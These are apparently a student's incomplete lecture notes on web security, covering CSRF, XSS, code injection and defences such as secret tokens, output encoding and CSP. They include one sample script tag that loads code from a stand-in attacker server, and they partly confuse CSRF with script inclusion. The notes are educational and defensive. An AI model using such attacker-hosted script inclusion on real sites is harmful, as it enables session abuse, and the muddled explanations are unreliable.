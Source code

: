 link: http://www-sop.inria.fr/members/Tamara.Rezk/teaching/caspar/web3.tar.gz

### Cross Site Request Forgery

[![](https://i.imgur.com/T5tobo8.png)](https://drive.google.com/file/d/0B84giOOCNV1zby0xQ0c3UzYwNVk/view?usp=sharing)
The attacker code include the attacker code from another server, in this case, attacker server.
```
<script src:"http://atackerserver.com/jquery"></script>
```
This is the process CSRF.

1. Execute attacker code JS
2. Load from attacker server code
3. The client execute the code received by AJAX process. This code send the request to Trusted server the service that want to attack. For example, getContactList service. This is posible because have the client cookie and the server think that is the client who do the request.

***Complete with more information about it***

#### Prevention
##### Add a secret that the attacker cannot guess
If we use a token, we prevent this attack.
This token is a number generated randomly.
So the html have in URL requests the token as GET parameter. And the request from attacker code don't have this token, this random number. Then the browser always send the cookie but the trusted server will know that is a attack because don't have the token.
BUT, the attacker code, can analise the DOM and find the token code.
this token can find because is JS imported, but if it is a iframe, this code wouldn't can access the DOM.

##### Re-authenticate for critical operations
##### Logging off one site before using others

## XSS
code injection is esencialy execute code from attacker.
this can execute in:
- SQL
- JavaScript
- Server side

If the code is executed in server, this is know injection
and if the code is executed in client is know as XSS.

###What is XSS?

### Prevention
#### Output Filtering/Encoding
- Remove, encode HTML special charts
- Allow only safe commands

**NOTE: USE XSS CHEAT SHEET**

#### CSP
the code is not acepted if link is another server that the declared in CSP.

And the code is not acepted if the code is inline, so it's included in HTML.

The injection that include the script in URL and the server print GET variable, is not found, because the server print this code as inline code.

This isn't enought because all the user don't have the last version of browsers.

##### SOP and XSS
